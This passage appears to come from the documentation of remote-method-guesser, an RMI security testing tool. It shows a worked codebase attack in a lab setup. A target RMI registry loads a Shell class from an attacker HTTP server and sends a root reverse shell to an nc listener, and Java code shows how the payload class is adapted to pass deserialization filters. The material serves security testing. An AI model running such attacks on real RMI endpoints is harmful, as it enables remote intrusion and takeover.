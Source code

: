As previously mentioned, the internal *DGC communication* of modern *RMI servers* is hardened against *codebase* and *deserialization attacks*.
Nonetheless, *remote-method-guesser* also supports *codebase attacks* on the *DGC* and *RMI registry* level and allows you to verify the
vulnerability on older *RMI endpoints*. In case of the *RMI registry*, it turns out that class loading is even possible on fully patched
endpoints, if the ``useCodebaseOnly`` property is set to ``false`` and the *SecurityManager* allows the requested action of the payload class.

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 codebase Shell http://172.17.0.1:8000 --signature reg
[+] Attempting codebase attack on RMI Registry endpoint...
[+] Using class Shell with codebase http://172.17.0.1:8000/ during lookup call.

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [27/Mar/2021 06:49:52] "GET /Shell.class HTTP/1.1" 200 -

[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:36242.
id
uid=0(root) gid=0(root) groups=0(root)
```

However, notice that in this case the payload class needs to extend or implement an (interface) class that is explicitly allowed
by the deserialization filters of the *RMI registry*. The following listing shows the modifications applied to the ``Shell`` class
in the example above:

```java
[...]
import java.rmi.Remote;

public class Shell implements Serializable, Remote
[...]
```


### DGC Action

------


### Enum Action

------

The ``enum`` action is *rmg's* base action and basically performs an *RMI vulnerability scan*. In this section,
the different checks of the ``enum`` action and it's outputs are explained in more detail:
